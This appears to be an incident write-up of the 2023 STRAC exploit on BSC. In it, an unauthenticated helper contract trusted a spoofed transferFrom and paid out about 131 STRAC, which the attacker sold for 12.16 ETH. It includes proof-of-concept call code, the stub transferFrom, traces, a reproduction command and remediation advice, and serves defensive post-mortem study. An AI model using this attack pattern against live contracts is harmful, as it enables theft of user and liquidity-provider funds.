



# STRAC Exploit — Permissionless Token-Drainer in a Helper Contract (Spoofable `transferFrom`)

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/dependency/unchecked-return-value · vuln/dependency/unsafe-external-call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains several
> unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified token source: [Token.sol](sources/Token_9801DA/Token.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **12.1629 ETH** (Binance-pegged ETH, `0x2170…F8`) — ≈ $13 ETH per the PoC header, ~$22K at the time |
| **Vulnerable contract** | Helper/router `Contract_0x1f90` — [`0x1F90BDeB5674833868EE9b36707B929024E7A513`](https://bscscan.com/address/0x1f90bdeb5674833868ee9b36707b929024e7a513) (selector `0x4a75084c`, no access control) |
| **Drained asset** | `STRAC` token — [`0x9801DA0AA142749295692c7cb3241E4EE2B80Bda`](https://bscscan.com/address/0x9801da0aa142749295692c7cb3241e4ee2b80bda#code) |
| **Victim pool** | ETH/STRAC PancakeSwap pair — [`0x2976bD3774622367CE7A575D28201480e640966F`](https://bscscan.com/address/0x2976bD3774622367CE7A575D28201480e640966F) |
| **Attacker EOA / contract** | [`0xc7823188d459e1744c0e5fd58a0e074e92982ea3`](https://bscscan.com/address/0xc7823188d459e1744c0e5fd58a0e074e92982ea3) |
| **Attack tx** | [`0x1147b3c0f3ebdd524c4e58430bb736eba9f7fa522158f5ad81eb3e2394b466d0`](https://bscscan.com/tx/0x1147b3c0f3ebdd524c4e58430bb736eba9f7fa522158f5ad81eb3e2394b466d0) |
| **Chain / block / date** | BSC / fork at 29,474,565 (attack block 29,474,566) / ~June 2023 |
| **Compiler** | Token: Solidity v0.8.14, optimizer 200 runs ([`_meta.json`](sources/Token_9801DA/_meta.json)) |
| **Bug class** | Missing access control + caller-spoofable `transferFrom` in a permissionless token-mover function |

---

## TL;DR

A helper contract at `0x1F90…E7A513` held a stash of **130.97 STRAC** and exposed a public,
**unauthenticated** function (selector `0x4a75084c`) whose behaviour, reconstructed verbatim from the
trace, is:

```
function 0x4a75084c(address recipient, IERC20 token, uint256 amount):
    recipient.transferFrom(msg.sender_or_self, recipient, amount);   // "pull" leg — return value trusted
    token.transfer(recipient, amount);                               // "push" leg — real tokens leave
```

The function takes the *recipient*, the *token*, and an *amount* entirely from the caller, calls
`transferFrom` **on the `recipient` address itself** (which the attacker controls and stubs out to
`return true`), and then unconditionally **`transfer`s the real STRAC out to that same attacker-chosen
recipient**. There is no `onlyOwner`, no allowance check that touches a real token, and the "pull"
leg is a no-op because the attacker *is* the contract being asked to give up tokens.

So the attacker simply called it with `recipient = attacker`, `token = STRAC`, `amount = the whole
STRAC balance of 0x1f90`, received all 130.97 STRAC for free, then dumped it into the ETH/STRAC
PancakeSwap pool for **12.1629 ETH**.

This is not a flash-loan / oracle / AMM-invariant exploit — it is a plain **access-control + spoofable
external-call** bug. The token's own transfer logic (a trading gate + 0.3% fee) was irrelevant; the
attacker was already whitelisted-equivalent because `_tradeStatus` allowed the path, and the only fee
charged was the routine 0.3% on the sell into the pool.

---

## Background

### The STRAC token ([Token.sol](sources/Token_9801DA/Token.sol))

`STRAC` is a fee-on-transfer ERC20 with three owner-gated knobs and a trading gate:

- **Trading gate** — when `_tradeStatus == true`, a transfer to a non-fee, non-whitelisted recipient
  reverts with `"transfer error."` ([Token.sol:521-527](sources/Token_9801DA/Token.sol#L521-L527)).
- **Fee-on-transfer** — a 0.3% (`_fromFeeRate`/`_toFeeRate` = 3/1000) fee is taken when the sender or
  recipient is flagged `_requiredFee` ([Token.sol:529-541](sources/Token_9801DA/Token.sol#L529-L541)).
- **Owner setters** — `setRequiredFee`, `setWhitelist`, `setTradeStatus`, and a sweep helper `bfer`,
  all guarded by `require(msg.sender == _owner)`.

Total supply is a fixed `1,000,000 * 1e18` minted to the deployer at construction
([Token.sol:490-493](sources/Token_9801DA/Token.sol#L490-L493)). **Nothing in the token source is the
bug.** The token is the *asset* that gets stolen; the bug lives in the separate helper contract.

### The helper contract `0x1F90…E7A513` (not verified on-chain, behaviour from trace)

This contract held a balance of STRAC (`130968947172476368780` wei ≈ 130.97 STRAC at the fork block —
see [output.txt:28-29](output.txt#L28-L29)) and exposed selector `0x4a75084c`. Its source is not in
the verified-sources set, but the trace fully determines what it does (see Root cause). It is most
plausibly a buy/claim/exchange-style helper that was meant to take a user's deposit token via
`transferFrom` and hand back STRAC — but it trusts a caller-supplied address for *both* the pull
target and the payout recipient.

---

## The vulnerable code

### Asset side — STRAC transfer with the routine 0.3% fee ([Token.sol:518-544](sources/Token_9801DA/Token.sol#L518-L544))

```solidity
function transfer(address recipient, uint256 amount) public virtual override returns (bool) {
    uint fee;
    if (_tradeStatus == true) {
        if(_requiredFee[recipient] == false){
            if (_whitelist[_msgSender()] == false) {
                revert("transfer error.");          // trading gate
            }
        }
    }
    if(_requiredFee[_msgSender()]){ fee += (amount * _fromFeeRate / 1000); }
    if(_requiredFee[recipient]){   fee += (amount * _toFeeRate   / 1000); }   // 0.3% on sell to pool
    unchecked {
        _transfer(_msgSender(), recipient, amount - fee);
        if(fee>0){ _transfer(_msgSender(), address(this), fee); }
    }
    return true;
}
```

This logic behaves correctly — it is **not** where the loss originates. In the attack the only thing
it did was take a 0.3% fee (`0.392907 STRAC`) when the attacker sold the stolen STRAC into the pool
([output.txt:51-52](output.txt#L51-L52)).

### Bug side — the helper's permissionless mover (selector `0x4a75084c`)

The helper is unverified, but the trace at [output.txt:30-39](output.txt#L30-L39) pins down its exact
behaviour. The attacker calls:

```solidity
// PoC: STRAC_exp.sol:29-31
Contract_0x1f90.call(
    abi.encodeWithSelector(
        bytes4(0x4a75084c),
        address(this),                       // recipient  = attacker
        STRAC,                               // token      = the asset to steal
        STRAC.balanceOf(address(Contract_0x1f90))  // amount  = the helper's ENTIRE STRAC balance
    )
);
```

and the helper internally executes (reconstructed):

```solidity
function <0x4a75084c>(address recipient, IERC20 token, uint256 amount) external {  // NO ACCESS CONTROL
    // "pull" leg: calls transferFrom ON the recipient address (attacker-controlled, stubbed true)
    ITransferFrom(recipient).transferFrom(msg.sender /* or self */, recipient, amount);
    // "push" leg: sends the REAL asset out to the same attacker-chosen recipient
    token.transfer(recipient, amount);
}
```

The PoC proves the spoof by implementing a fake `transferFrom` that just returns `true`
([STRAC_exp.sol:36-38](test/STRAC_exp.sol#L36-L38)):

```solidity
function transferFrom(address sender, address recipient, uint256 amount) external returns (bool) {
    return true;     // attacker stubs out the "pull" leg — no tokens actually move in
}
```

In the trace you can see both legs:

```
Contract_0x1f90::4a75084c(…7fa9385b…  …9801da…  …07198f2b8cd65ab78c)        ← attack call
  ├─ ContractTest::transferFrom(ContractTest, Contract_0x1f90, 130.97e18)  ← "pull" leg, returns true (no-op)
  └─ STRAC::transfer(ContractTest, 130.97e18)                              ← "push" leg, REAL STRAC leaves 0x1f90
       └─ emit Transfer(from: 0x1F90…, to: ContractTest, value: 130.97e18)
```

— [output.txt:30-39](output.txt#L30-L39). The "pull" leg targets the *attacker's own contract*, so it
returns `true` without moving anything, while the "push" leg hands over the helper's entire STRAC
balance for nothing.

---

## Root cause

Two independent failures compose into a free drain:

1. **No access control on a value-moving function.** Selector `0x4a75084c` is callable by anyone and
   moves the helper's own token holdings out to a caller-supplied address. A `require(msg.sender ==
   owner)` (the very pattern the token itself uses on its setters) would have blocked it outright.

2. **The "consideration" leg is caller-spoofable.** The function calls `transferFrom` on an address
   the caller chooses (`recipient`) and trusts its boolean return as proof that the caller paid for
   the STRAC. By passing its own contract as `recipient`, the attacker makes the pull leg a no-op that
   returns `true`. There is no check that a *real* deposit token actually entered the helper, no
   pulling from a fixed/known token, and no balance-delta verification.

The net effect is `token.transfer(attacker, helperBalance)` with the only "guard" being a call into
attacker-controlled code. Classic missing-auth + trusting an external call's return value.

---

## Preconditions

- The helper `0x1F90…E7A513` must hold a non-zero STRAC balance. At the fork block it held
  **130.97 STRAC** ([output.txt:28-29](output.txt#L28-L29)).
- The function must be reachable permissionlessly (it is — no auth in the trace).
- The attacker must be able to sell STRAC into the ETH/STRAC pool. STRAC's trading gate
  ([Token.sol:521-527](sources/Token_9801DA/Token.sol#L521-L527)) did not block the sell: the transfer
  to the pool succeeded with only the standard 0.3% fee, so either `_tradeStatus` was permissive for
  this path or the pool/recipient was fee-flagged. The trace shows the sell completing normally
  ([output.txt:50-75](output.txt#L50-L75)).
- **Zero working capital.** The attacker started with **0 ETH** ([output.txt:25-27](output.txt#L25-L27))
  and ended with 12.16 ETH. The STRAC was obtained for free, so no flash loan was even needed.

---

## Step-by-step attack walkthrough (with on-chain numbers)

All figures are taken directly from [output.txt](output.txt). The pool's `token0 = ETH` (`0x2170…F8`),
`token1 = STRAC`, so `getReserves()` returns `(reserveETH, reserveSTRAC, ts)`.

| # | Step | Trace ref | Concrete numbers |
|---|------|-----------|------------------|
| 0 | **Initial state** — attacker holds 0 ETH; helper `0x1f90` holds 130.968947 STRAC; pool holds 2,636.3057 ETH / 28,086.7488 STRAC | [:25-29](output.txt#L25-L29), [:40-41](output.txt#L40-L41) | reserveETH = 2,636.3057, reserveSTRAC = 28,086.7488 |
| 1 | **`approve`** STRAC → PancakeRouter for `type(uint256).max` (so the attacker can later sell) | [:20-24](output.txt#L20-L24) | allowance = 2^256−1 |
| 2 | **Steal the STRAC** — call helper selector `0x4a75084c(attacker, STRAC, 130.968947e18)`. The "pull" leg `transferFrom` hits the attacker's own stub (returns true), the "push" leg `STRAC.transfer` sends the full 130.968947 STRAC to the attacker | [:30-39](output.txt#L30-L39) | attacker STRAC += 130.968947 |
| 3 | **Read reserves & quote** — `getAmountOut(130.968947 STRAC, reserveSTRAC=28,086.7488, reserveETH=2,636.3057)` → **12.199539 ETH** | [:40-47](output.txt#L40-L47) | quoted out = 12.199538989105835430 |
| 4 | **Send STRAC to the pool** — `transfer` of 130.968947 STRAC to the pair. The token's 0.3% fee diverts **0.392907 STRAC** to the token contract, so **130.576040 STRAC** actually lands in the pool | [:50-57](output.txt#L50-L57) | to pool = 130.576040; fee = 0.392907 |
| 5 | **`swap`** for `12.199539 × 997/1000 = 12.162940 ETH` (a hand-applied 0.3% haircut on the quote), output sent to the attacker | [:48](test/STRAC_exp.sol#L48), [:58-75](output.txt#L58-L75) | ETH out = 12.162940372138517923 |
| 6 | **Final state** — pool now holds 2,624.1427 ETH / 28,217.3249 STRAC; attacker holds **12.162940 ETH** | [:65-78](output.txt#L65-L78) | ΔreserveETH = −12.162940; ΔreserveSTRAC = +130.576040 |

### Why the swap math lines up

PancakeSwap `getAmountOut(in, reserveIn=STRAC, reserveOut=ETH) = (in·997·reserveOut) / (reserveIn·1000 + in·997)`.
With `in = 130.968947`, `reserveSTRAC = 28,086.7488`, `reserveETH = 2,636.3057`:

```
out = (130.968947·997·2636.3057) / (28086.7488·1000 + 130.968947·997) = 12.199539 ETH   ✓ matches trace L47
```

The PoC then sells at `out·997/1000 = 12.162940 ETH` ([STRAC_exp.sol:48](test/STRAC_exp.sol#L48)),
which is exactly the `amount0Out` in the `Swap` event ([output.txt:70](output.txt#L70)) and the
attacker's final balance ([output.txt:77-78](output.txt#L77-L78)).

---

## Profit / loss accounting

| Item | STRAC | ETH |
|---|---:|---:|
| Attacker start | 0 | 0 |
| STRAC stolen from helper `0x1f90` (free) | +130.968947 | — |
| 0.3% token fee burned to token contract on the sell | −0.392907 | — |
| STRAC delivered into the pool | −130.576040 | — |
| ETH received from `swap` | — | +12.162940 |
| **Attacker end** | **0** | **+12.162940** |

- **Attacker net profit:** **+12.162940372138517923 ETH** (from a 0-ETH start, no flash loan).
- **Pool loss (LPs):** the pair gave up **12.162940 ETH** and absorbed **130.576040 STRAC** of
  effectively worthless inventory.
- **Helper loss:** its entire **130.968947 STRAC** stash, taken for nothing.

The PoC header rounds this to "**~13 $ETH**" ([STRAC_exp.sol:4](test/STRAC_exp.sol#L4)); the precise
on-chain figure is 12.1629 ETH.

---

## Diagrams

### Sequence of the attack



### Value flow (where the money comes from)



### The flaw inside the helper's `0x4a75084c`



---

## Remediation

1. **Add access control** to selector `0x4a75084c`. If it is an internal treasury/sweep function, gate
   it with `onlyOwner`/`onlyRole` exactly as STRAC's own setters do
   ([Token.sol:495-516](sources/Token_9801DA/Token.sol#L495-L516)).
2. **Never trust a caller-supplied address as the `transferFrom` target.** If the function is meant to
   pull a *deposit* token, the deposit token must be a fixed/known address (or validated against an
   allowlist), and the pull must come from `msg.sender`, not from a free-form `recipient`.
3. **Verify the pull actually happened by balance delta**, not by the returned boolean:
   `before = token.balanceOf(this); token.transferFrom(msg.sender, this, amount); require(token.balanceOf(this) - before == amount);`.
   A spoofed `transferFrom` that returns `true` without moving tokens then fails this check.
4. **Separate "pull" and "push" recipients.** The payout recipient and the address being charged
   should never be forced to be the same caller-controlled address; that identity is what let the
   attacker satisfy both legs with one controlled contract.
5. **Don't leave standing token balances in an externally-callable helper.** Minimise idle inventory;
   forward funds to a guarded vault.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail to compile under `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2023-06-STRAC_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 29,474,565). Most pruned public BSC RPCs
  fail with `header not found` / `missing trie node`; use an archive provider.
- Result: `[PASS] testExploit()` with the attacker ending at **12.162940 ETH** from a 0-ETH start.

Expected tail ([output.txt:1-7](output.txt#L1-L7), [:81-83](output.txt#L81-L83)):

```
Ran 1 test for test/STRAC_exp.sol:ContractTest
[PASS] testExploit() (gas: 172288)
Logs:
  Attacker ETH balance before attack: 0.000000000000000000
  Attacker ETH balance after attack: 12.162940372138517923

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: DeFiHackLabs — STRAC, BSC, ~13 ETH. Vulnerable helper `0x1F90…E7A513`, drained asset
STRAC `0x9801DA…0Bda`. Bug class: missing access control + caller-spoofable `transferFrom` return
value.*
